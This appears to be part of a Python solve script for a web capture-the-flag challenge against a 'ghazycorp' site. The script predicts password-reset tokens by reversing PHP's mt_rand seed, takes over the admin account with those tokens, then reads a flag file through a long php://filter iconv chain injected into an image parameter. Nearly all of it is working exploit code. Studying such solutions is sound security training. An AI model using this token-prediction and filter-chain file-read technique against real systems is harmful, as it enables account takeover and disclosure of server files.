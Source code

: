 ```python
               "email": email, 
               **{"recover-submit": 1}
           })
print(r.status_code)
# print(r.text)
r = s.get(f"{HOST}/mail/mail.php")
# print(r.text)
soup = bs(r.text, "html.parser")
raw_data = soup.select(".list-group > a")[1]["href"]
idx = raw_data.find("id=") + 3
last_id = raw_data[idx: idx + 37]

r = s.get(f"{HOST}/mail/mail_view.php",
          params={
              "id": last_id
          })
token1, token2 = r.text[r.text.find("tokens: ") + 8:r.text.find("<br>")].split(",")
token1, token2 = token1.strip(), token2.strip() 

print("Token1:",token1, "Token2:",token2)

seed = os.popen(f"python3 ./mt_rand-reverse/reverse_mt_rand.py {token1} {token2} 0 1").read().strip()
_, token3 = os.popen(f"php ./mt_rand-reverse/display_mt_rand.php {seed} 1").read().strip().split()
_, token4 = os.popen(f"php ./mt_rand-reverse/display_mt_rand.php {seed} 2").read().strip().split()

admin_email = "admin@ghazycorp.com"
new_admin_password = "asdfasdfasdfasdfasdfasdf"

r = s.get(f"{HOST}/wrong_reset_token.php",
          params={
              "email": admin_email, 
              "token1": token3,
              "token2": token4, 
              "new_password": new_admin_password
          })
print(r.status_code) 
print(r.text) 

s = requests.session() 

r = s.post(f"{HOST}/admin_login.php", 
           data={
               "email": admin_email, 
               "password": new_admin_password,
               **{"login-submit": 1}
           })
print(r.text)

r = s.post(f"{HOST}/user_photo.php",
           data={
               "img":"php://filter/convert.iconv.UTF8.CSISO2022KR|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.L6.UNICODE|convert.iconv.CP1282.ISO-IR-90|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP869.UTF-32|convert.iconv.MACUK.UCS4|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM1161.IBM-932|convert.iconv.MS932.MS936|convert.iconv.BIG5.JOHAB|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.PT.UTF32|convert.iconv.KOI8-U.IBM-932|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|/resource=file:///flag.txt"
           })

b1 = base64.b64decode(r.text[r.text.find("base64,")+7:]).decode('utf-8')
print("FLAG:", base64.b64decode(b1[:b1.find("+")] + "=="))
```      